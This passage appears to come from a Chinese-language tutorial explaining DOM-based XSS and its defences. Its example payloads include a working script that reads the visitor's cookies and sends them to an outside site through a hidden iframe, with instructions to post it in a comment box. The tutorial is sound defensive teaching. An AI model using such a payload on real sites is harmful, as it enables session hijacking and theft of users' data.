 DOM 型 XSS 的攻击步骤：

- 攻击者构造出特殊的 URL，其中包含恶意代码。
- 用户打开带有恶意代码的 URL。
- 用户浏览器接收到响应后解析执行，前端  JavaScript 取出 URL 中的恶意代码并执行。
- 恶意代码窃取用户数据并发送到攻击者的网站，或者冒充用户的行为，调用目标网站接口执行攻击者指定的操作。

#### 简单案例

使用xss弹出恶意警告框，代码为：
```html
<script>alert("xss")</script>
```

xss输入也可能是html代码段，如果使网页不停的刷新，代码为：
```html
<meta http-equiv="refresh" content="0;">
```

嵌入其他网站链接的代码为：
```html
<iframe src="http://www.jsay.org" width=0 height=0></iframe>
<!-- jsay.org 个人小站还没开始运行哦！ -->
```

`JavaScript` 写一个请求跨站的脚本就是XSS了，如下：

```html
<!-- jsay.org 个人小站还没开始运行哦！ -->
<!-- 将此段代码放在评论/留言框中提交 -->
<script type="text/javascript">
  (function(window, document) {
      // 构造泄露信息用的 URL
      var cookies = document.cookie;
      var xssURIBase = "http://www.jsay.org/xss/";
      var xssURI = xssURIBase + window.encodeURI(cookies);
      // 建立隐藏 iframe 用于通讯
      var hideFrame = document.createElement("iframe");
      hideFrame.height = 0;
      hideFrame.width = 0;
      hideFrame.style.display = "none";
      hideFrame.src = xssURI;
      // 开工
      document.body.appendChild(hideFrame);
  })(window, document);
</script>
```

#### XSS防御

**思路：对输入(和URL参数)进行过滤，对输出进行编码。也就是对提交的所有内容进行过滤，对url中的参数进行过滤，过滤掉会导致脚本执行的相关内容；然后对动态输出到页面的内容进行html编码，使脚本无法在浏览器中执行。虽然对输入过滤可以被绕过，但是也还是会拦截很大一部分的XSS攻击。**

1. 对输入、URL参数等（如：`<>`、`/` 、`&`、`'`、`"` ）进行转义、过滤，仅接受指定长度范围内并符合我们期望格式的的内容提交，阻止或者忽略除此外的其他任何数据；
2. 输出数据之前对潜在的威胁的字符进行编码、转义；
3. XSS 一般利用js脚步读取用户浏览器中的Cookie，而如果在服务器端对 Cookie 设置了HttpOnly 属性，那么js脚本就不能读取到cookie，但是浏览器还是能够正常使用cookie。
4. 设置黑、白名单；
5. [Content Security Policy](http://www.ruanyifeng.com/blog/2016/09/csp.html) 的实质就是白名单制度，开发者明确告诉客户端，哪些外部资源可以加载和执行，等同于提供白名单。它的实现和执行全部由浏览器完成，开发者只需提供配置。
